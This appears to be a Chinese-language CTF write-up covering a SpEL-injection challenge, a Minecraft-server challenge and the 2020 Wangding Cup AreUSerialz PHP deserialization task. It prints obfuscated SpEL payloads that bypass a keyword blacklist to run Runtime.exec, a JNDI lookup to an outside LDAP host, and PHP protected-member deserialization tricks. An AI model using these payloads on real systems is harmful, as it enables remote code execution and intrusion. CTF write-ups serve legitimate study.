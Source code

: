 前台黑名单，过滤了`T\s*(`, `String`, `new`, `java.lang`, `Runtime`等等，没有new意味着只有静态方法（`new/newInstance`）

看了SPEL的词法解析源码后发现`\u0000`也被识别为空字符，直接`pos++`；而`java.lang`可以`java . lang`绕过 ，对词法解析是没区别的。（赛后看了出题人的payload他好像以为这样真的能限制，你仿佛在故意逗我笑）

命令执行的payload

```java
T\u0000(java . lang . Object).class.forName('jav'+'a.lan'+'g.Run'+'time').getMethod('ex'+'ec',T\u0000(java . lang . Object).class.forName('jav'+'a.lan'+'g.Run'+'time').getName().class).invoke(T\u0000(java . lang . Object).class.forName('jav'+'a.lan'+'g.Run'+'time').getMethod('getR'+'untime').invoke(T\u0000(java . lang . Object).class.forName('jav'+'a.lan'+'g.Run'+'time')), "sleep 5").waitFor()
```

这个payload最初测试时已经成功RCE，正在想办法外带。突然题目下线又上线就被`blocked by openrasp`，感觉是出题人改题了

之后又尝试了JNDI，`initialContext`有一个静态方法`doLookup`，可以发出请求但高版本不能加载远程codebase，测了几个本地gadget也没成功

```java
T\u0000(java . lang . Object).class.forName("javax.naming.InitialContext").getMethod('doLookup', T\u0000(java . lang .Object).class.forName('jav'+'a.lan'+'g.Run'+'time').getName().class).invoke(null, 'ldap://IP:6666/TTT')"""
```

这道题RASP没有限制读文件，所以通过nio的几个静态方法就可以了

而且SPEL的关键字不区分大小写...意味着可以随便实例化（出题人不知道SPEL这个特性也就算了，黑名单难道不知道大小写匹配？）

### mc_joinin

完全摸不着头脑，nmap识别出来80端口是`go-ipfs json-rpc or influxdb api`（nmap，真有你的，成功带偏）

MC服务器默认端口25565，nmap默认是不扫的，最后还是从shodan得知。protocol version是997，自己改客户端

第二关是个Go slice override，赛中好像没给源码，有点牵强

## 网鼎杯2020

### AreUSerialz

这题看起来有三道check：

+ `is_valid`校验%00

+ ```php
  if($this->op === "2") this->op = "1";
  if($this->op == "2") read();
  ```

+ 知道创宇WAF

第二个check用弱类型过，第三个实际payload没有拦(?)

第一个卡了我半天：因为类成员都是protected，但`is_valid`只允许`32 <= ascii <= 125`，也就是说反序列化出来的`*\0*`过不了

赛后又研究了一下，发现新tip

我们知道反序列化过程其实是个`build and assign`的过程，即先实例化对象，然后依次解析序列化数据中的类成员再赋值（PHP是动态语言，runtime的实例属性是存储在哈希表中的，所以可以随意新增实例属性）。于是也就有了`CVE-2016-7134`这种其实是正常feature的漏洞。那么当类的某个成员是protected成员，而我序列化数据中是public成员会出现什么情况？

```php
class FileHandler {
    protected $content;
    protected $op;
    protected $filename;
}

class FileHandler {
    public $content;
    public $op;
  ```
